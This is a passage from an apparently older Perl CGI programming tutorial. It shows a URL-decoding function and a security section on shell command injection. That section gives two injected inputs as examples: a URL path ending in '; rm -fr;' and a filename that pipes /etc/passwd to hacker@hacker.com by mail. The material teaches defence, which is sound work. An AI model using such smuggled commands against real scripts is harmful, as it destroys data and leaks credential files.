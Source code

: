   <TR>
    <TD bgColor=blanchedalmond><TT>
      <P>Define the decodeURL() function. 
      <P>Get the encoded string from the parameter array. 
      <P>Translate all plus signs into spaces. 
      <P>Convert character coded as hexadecimal digits into regular characters. 
      <P>Return the decoded string. </TT></P></TD></TR></TBODY></TABLE>
<P>
<TABLE cellSpacing=0 cellPadding=0 border=0>
  <TBODY>
  <TR>
    <TD bgColor=black><FONT color=#fffaa0 size=4><B>
      <P>Listing 19.2-19LST02.PL - How to Decode the URL 
    Encoding</B></FONT></P></TD></TR>
  <TR>
    <TD bgColor=#fffaa0><B><PRE><BR>
<P>sub decodeURL {
    $_ = shift;
    tr/+/ /;
    s/%(..)/pack('c', hex($1))/eg;
    return($_);
}</B></P></PRE></TT></TD></TR></TBODY></TABLE>
<P>This function will be used in Chapter 20, "<A 
href="ch20.htm">Form Processing</A>," to decode 
form information. It is presented here because canned queries also use URL 
encoding. 
<H2><A name=Security>Security</A></H2>CGI really has only one large security 
hole that I can see. If you pass information that came from a remote site to an 
operating system command, you are asking for trouble. I think an example is 
needed to understand the problem because it is not obvious. 
<P>Suppose that you had a CGI script that formatted a directory listing and 
generated a web page that let visitors view the listing. In addition, let's say 
that the name of the directory to display was passed to your program using the 
<TT>PATH_INFO</TT> environment variable. The following URL could be used to call 
your program: 
<P><B><PRE>http://www.foo.com/cgi-bin/dirlist.pl/docs</PRE></B>Inside your program, 
the <TT>PATH_INFO</TT> environment variable is set to <TT>docs</TT>. In order to 
get the directory listing, all that is needed is a call to the <TT>ls</TT> 
command in UNIX or the <TT>dir</TT> command in DOS. Everything looks good right? 

<P>But what if the program was invoked with this command line? 
<P><B><PRE>http://www.foo.com/cgi-bin/dirlist.pl/; rm -fr;</PRE></B>Now, all of a 
sudden, you are faced with the possibility of files being deleted because the 
semi-colon (;) lets multiple commands be executed on one command line. 
<P>This same type of security hole is possible any time you try to run an 
external command. You might be tempted to use the <TT>mail</TT>, 
<TT>sendmail</TT>, or <TT>grep</TT> commands to save time while writing your CGI 
program, but since all of these programs are easily duplicated using Perl try to 
resist the temptation. 
<P>Another security hole is related to using external data to open or create 
files. Some enterprising hacker could use <TT>"| mail hacker@hacker.com &lt; 
/etc/passwd"</TT> as the filename to mail your password file or any other file 
to himself. 
<P>All of these security holes can be avoided by removing the dangerous 
characters (like the <TT>|</TT> or pipe character). 
<P>
<TABLE cellSpacing=0 cellPadding=0 border=0>
  <TBODY>
  <TR>
    <TD bgColor=black><FONT color=blanchedalmond 
      size=4><B>Pseudocode</B></FONT></TD></TR>
  <TR>
    <TD bgColor=blanchedalmond><TT>
      <P>Define the improveSecurity() function. 